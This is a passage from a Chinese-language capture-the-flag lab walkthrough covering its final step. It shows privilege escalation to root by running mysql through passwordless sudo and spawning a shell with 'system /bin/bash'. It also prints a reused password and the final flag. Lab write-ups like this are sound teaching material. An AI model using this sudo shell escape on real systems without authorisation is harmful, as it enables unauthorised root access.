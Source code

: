 ![20220508_0258.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/49d21e633bd3b0a54b74b030f13ffdb5.png)

flag2 









### Mysql 提权

这时候我们查看 sudo 权限列表 发现Mysql 命令不需要密码就能以 Root 权限来运行

![20220508_0258_1.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/7e4d45f43be585e361f9ddbd80808ca5.png)


```bash
sudo /usr/bin/mysql -u root -D wordpress -p
```
密码还是web页面那个密码 adam14

发现成功使用 sudo 权限执行了 MySQL

![20220508_0259.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/035277e96c4d3a3b1c8ac2e0c5293d33.png)

我们知道在 MySQL 内也能执行外部的系统Shell命令,只需要在前面加上 system 就行

```sql
system id        -- 执行id命令
\! /bin/bash     -- 另一种写法
system /bin/bash -- 获得root 权限的shell

```
我们成功通过 MySQL 提权到 Root 权限

![20220508_0302.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/1335ba8a84296213a3fb9371fa85f24b.png)

查看root 家目录的 proof.txt 文件内容 成功获得第二个 Flag:`7efd721c8bfff2937c66235f2d0dbac1`

<font color="green" face=Monaco size=4>至此这台靶机的渗透过程已经全部结束 </font>


